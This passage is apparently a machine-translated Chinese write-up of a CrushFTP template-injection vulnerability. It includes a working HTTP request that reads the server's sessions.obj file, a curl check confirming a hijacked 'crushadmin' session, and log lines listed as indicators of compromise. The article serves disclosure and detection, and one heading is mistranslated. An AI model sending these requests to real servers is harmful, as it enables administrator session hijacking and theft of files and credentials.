 现在我们知道该 /home/researcher/CrushFTP/CrushFTP10  
 目录是目标的安装位置，我们可以泄漏序列化对象以获取管理员用户会话。  
```
POST /WebInterface/function/?command=zip&c2f=vndQ&path=<INCLUDE>/home/researcher/CrushFTP/CrushFTP10/sessions.obj</INCLUDE>&names=/bbb HTTP/1.1
Host: localhost
Cookie: CrushAuth=1713821078876_GAZtOk6j6gT7gHjv0pQUygUGixvndQ; c2f=vndQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```  
  
返回序列化对象，包括所有当前活动的用户会话。使用管理员会话cookie，我们可以访问存储在CrushFTP系统中的所有文件和用户凭据。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taedn38pjy2DDSDpXRYcowIGTOKibaRsTqS6Wzfd2JLHpyk0patlmBib1sia2AXAg6jTiczNtxzxhjIlqg/640?wx_fmt=png&from=appmsg "")  
  
我们将在响应中从泄露的文件中查找并获取会话 cookie。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taedn38pjy2DDSDpXRYcowIGLQ19eeM4w0CIPicjnLsic0ww9UbVCeIOgXy0gyPN33sQjg7VV4K2hicvQ/640?wx_fmt=png&from=appmsg "")  
  
向用户 API 函数发出 cURL 请求，确认我们已获取管理员会话 Cookie。  
```
$ curl 'https://crushftp/WebInterface/function/?command=getUsername&c2f=3dnZ' -H 'Cookie: CrushAuth=1713879298772_dZZeNbE2b7i6bAmGqqjXottYBG3dnZ; currentAuth=3dnZ' -k
<?xml version="1.0" encoding="UTF-8"?> 
<loginResult><response>success</response><username>crushadmin</username></loginResult>
```  
  
将该 cookie 放入浏览器后，我们便成功登录到管理 Web 控制台。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taedn38pjy2DDSDpXRYcowIG9dKXF2GmrxZUFlqsNaVNxzcDlPlia03R76OzLnDicfD4MylRxm2IxMyg/640?wx_fmt=png&from=appmsg "")  
## IOCs 国际奥委会  
  
利用该漏洞的恶意请求似乎可以使用任何 HTTPS 方法，并且可以通过请求正文参数传递有效负载。 CrushFTP.log  
 文件和日志文件将 logs/session_logs/  
 显示正在进行的模板注入。  
```
ACCEPT|04/22/2024 17:47:35.660|[HTTPS:21_56874:lookup:443] Accepting connection from: 127.0.0.1:56874
POST|04/22/2024 17:47:35.660|[HTTPS:21_44192_81T:anonymous:127.0.0.1] READ: *POST /WebInterface/function/ HTTP/1.1*
POST|04/22/2024 17:47:35.660|[HTTPS:21_44192_81T:anonymous:127.0.0.1] READ: *Priority: u=0, i*
POST|04/22/2024 17:47:35.660|[HTTPS:21_44192_81T:anonymous:127.0.0.1] READ: *command:zip*
POST|04/22/2024 17:47:35.661|[HTTPS:21_44192_81T:anonymous:127.0.0.1] READ: *c2f:vndQ*
POST|04/22/2024 17:47:35.661|[HTTPS:21_44192_81T:anonymous:127.0.0.1] READ: *path:<INCLUDE>/home/researcher/CrushFTP/CrushFTP10/sessions.obj</INCLUDE>*
POST|04/22/2024 17:47:35.661|[HTTPS:21_44192_81T:anonymous:127.0.0.1] READ: *names:/bbb
POST|04/22/2024 17:47:35.661|*
POST|04/22/2024 17:47:35.691|[HTTPS:21_56874:anonymous:127.0.0.1] WROTE: *HTTP/1.1 200 OK*
```  
  